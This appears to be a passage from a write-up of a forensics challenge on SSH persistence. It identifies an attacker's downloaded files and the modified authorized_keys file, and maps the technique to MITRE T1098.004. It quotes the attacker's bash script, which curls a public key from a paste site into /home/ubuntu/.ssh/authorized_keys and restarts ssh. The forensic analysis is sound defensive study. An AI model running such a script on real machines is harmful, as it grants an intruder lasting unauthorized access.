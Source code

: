 By browsing to the url that the attacker fetched with wget we can see the contents of the file.

```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

We can then see that the bash script fetches another file `hffgra4unv` from the same site, this time with curl.

If we browse to the new url we can see a public ssh key which makes sense since it is put into the ./ssh/authorized_keys file which gives the attacker ssh persistence.

Answer: **hffgra4unv**
## **Task 9**
*Can you confirmed the file modified by the attacker to gain persistence?*

---
We can see that the attacker executes the first downloaded file `bx5qcr0et8` which do modify the authorized_keys when it adds the attackers public ssh key into it.
![Task9_step1](../../images/sherlocks/meerkat/task9_step1.png)

Answer: **/home/ubuntu/.ssh/authorized_keys**

## **Task 10**
*Can you confirm the MITRE technique ID of this type of persistence mechanism?*

---
Searching Kagi for "Mitre techinque ID ssh persistence" gave me the following link
<https://attack.mitre.org/techniques/T1098/004/>

This link also provides the ID as T1098.004 